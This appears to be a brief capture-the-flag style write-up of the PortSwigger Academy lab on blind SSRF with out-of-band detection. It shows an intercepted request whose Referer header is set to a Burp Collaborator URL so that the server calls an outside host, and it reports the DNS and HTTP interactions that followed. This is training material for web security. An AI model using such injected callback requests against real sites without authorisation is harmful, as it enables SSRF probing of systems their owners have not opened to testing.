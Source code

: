 
# Blind SSRF with out-of-band detection

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server.

Note: To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

---------------------------------------------

References: 

- https://portswigger.net/web-security/ssrf



![img](images/Blind%20SSRF%20with%20out-of-band%20detection/1.png)

---------------------------------------------

Intercept the request when clicking a product and change the “Referer” header:

```
GET /product?productId=1 HTTP/2
...
Referer: http://snjtorvmsesj9itkltcgrqtsfjla92xr.oastify.com
...
```



![img](images/Blind%20SSRF%20with%20out-of-band%20detection/2.png)


There are DNS and HTTP request to the Collaborator domain:



![img](images/Blind%20SSRF%20with%20out-of-band%20detection/3.png)